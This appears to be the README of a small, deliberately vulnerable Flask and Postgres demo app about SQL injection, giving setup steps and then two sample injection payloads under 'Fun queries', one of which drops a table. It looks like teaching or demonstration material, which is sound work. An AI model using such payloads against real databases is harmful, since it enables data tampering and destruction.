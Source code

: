 
1. Create a new virtualenv: `virtualenv venv`
2. Install libraries: `./venv/bin/pip install click flask sqlalchemy psycopg2`
3. Create a database and a user. With Postgres:

    CREATE ROLE injection LOGIN PASSWORD 'somerealpassword';
    CREATE DATABASE injection;
    GRANT ALL ON DATABASE injection TO injection;

4. Edit `server.py` to set your database URI:

    DATABASEURI = "<your database uri>"

5. Run it in the shell: `./venv/bin/python server.py`

Or get help with: `./venv/bin/python server.py --help`


Fun queries:

* Get the size of the table:
    '); INSERT INTO bad_table SELECT 77, CONCAT('table size: ', count(*)) FROM bad_table; --
* Delete everything
    '); DROP TABLE bad_table; --
